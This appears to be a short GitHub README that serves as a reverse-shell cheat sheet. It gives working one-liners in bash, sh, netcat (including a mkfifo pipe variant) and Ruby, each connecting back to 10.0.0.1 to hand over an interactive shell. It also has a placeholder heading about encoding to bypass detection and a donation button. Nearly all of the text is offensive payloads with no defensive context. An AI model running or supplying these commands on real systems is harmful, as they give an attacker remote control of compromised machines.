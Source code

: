 # BASH
```
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
// Using SH
```
/bin/sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# NETCAT
```
/bin/nc -e /bin/sh 10.0.0.1 1234
```
// If wrong installed NC
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
# RUBY
```
/bin/ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Bypassing With Encode

As sooon as posible!


<h3 align="left">Support:</h3>
<p><a href="https://www.buymeacoffee.com/muhsatria"> <img align="left" src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="https://www.buymeacoffee.com/muhsatria" /></a></p><br><br>
